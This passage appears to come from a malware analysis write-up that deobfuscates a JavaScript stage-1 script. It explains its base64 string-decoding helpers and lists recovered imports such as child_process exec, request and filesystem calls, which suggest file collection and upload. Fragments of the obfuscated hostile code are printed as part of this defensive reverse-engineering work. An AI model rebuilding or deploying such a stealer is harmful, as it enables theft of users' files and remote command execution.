 ```js
    try {
        return a[c](t), !0
    } catch (t) {
        return !1
    }
}
const i = n("RGVmYXVsdA"),
    u = n("UHJvZmlsZQ"),
    W = e("aZmlsZW5hbWU"),
    Y = e("cZm9ybURhdGE"),
    p = e("adXJs"),
    y = e("Zb3B0aW9ucw"),
    w = e("YdmFsdWU"),
    V = n("cmVhZGRpclN5bmM"),
    f = n("c3RhdFN5bmM"),
    v = (n("aXNEaXJlY3Rvcnk"), n("cG9zdA")),
[...]
```
{: file='stage-1-edited.js'}

Welll....  this is a lot to take in at once. The trick is to just start doing something, start understanding something. The first thing I noticed, that makes it hard to understand things, is the encoded strings. So we have to figure out the algorithm used for encoding these. This made me notice, that there are in general two functions used to encode things, one is called `n` and the other is called `e`.

We can see above, `e` defined as:
```js
e = a => (s1 = a.slice(1), Buffer.from(s1, t).toString(c));
```
This is not really complicated, this takes a string. Some more knowledge we need is that `t = "base64"`.

Putting all this information together, we can see that the function e, takes a string, *slices off the first character*, and then *base64 decodes it*.

`n` is similar, but easier. 
```js
const n = a => Buffer.from(a, t).toString(c),
```
It takes a string and *base64 decodes* it.

Surprisingly, these encodings are used all over the obfuscated script, and you can translate *almost* all strings with this into readable ones.

So let's see what we could figure out by using this method.

First, let's look at the cleaned up imports:

```js
pt = require("path"),
rq = require("request"),
cr = require("crypto"), 
ex = require("child_process")["exec"], 
hs = r["hostname"](), pl = r["platform"](), 
hd = r["homedir"](), 
td = r["tmpdir"](), 
tp = r["type"]();
```
